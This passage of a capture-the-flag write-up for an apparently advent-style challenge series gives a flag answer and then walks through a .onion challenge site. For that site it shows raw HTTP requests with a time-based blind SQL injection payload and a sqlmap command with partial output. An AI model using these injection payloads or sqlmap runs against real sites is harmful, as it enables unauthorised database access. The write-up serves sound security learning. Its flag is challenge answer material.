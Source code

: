 And in the end, although we have errors in the script we can see the flag:

> HV16-aBB9-Gis5-RMu2-parP-ckoj


Day 21: Debug me
----------------
Not done, as explained on day 17, I have no time to learn debugging, assembly or reverse engineering.


Day 22: Pengus Site
-------------------
Since the website is a .onion we install Tor browser from [1] and install it. Then to be able to test the web site with some comfort we proxy Burp through Tor as explained in [2]. Then we can start serious business :)

There is only one visible page with one form, a sample request to that form would be:
```
POST / HTTP/1.1
Content-Length: 5
Accept-Encoding: gzip,deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.0.11#stable (http://sqlmap.org)
Host: 7y4b2aymlqwmkyuh.onion
Cookie: PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

k=foo
```

The response, however, looks to be always the same whichever the input. We fire an active scan through Burp and in the result we see "TRACE method enabled", "Cross-Site Request Forgery" that are both interesting but on top is "SQL Injection" which is way more tempting. When looking closer, we see that the following request has an execution time of > 20 seconds:
```
POST / HTTP/1.1
Host: 7y4b2aymlqwmkyuh.onion
Cookie: PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3
Connection: close
Content-Length: 48

k=foobar'%2b(select*from(select(sleep(20)))a)%2b'
```

So the form is vulnerable to time-based blind SQL injection. There is a tool that fits perfectly to exploit this kind of vulnerability, please welcome sqlmap! Here is the run of sqlmap to test and find the vulnerability:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" --technique T --level 2 --risk 2
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.0.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 07:26:12

[07:26:12] [INFO] testing connection to the target URL
[07:26:13] [WARNING] heuristic (basic) test shows that POST parameter 'k' might not be injectable
```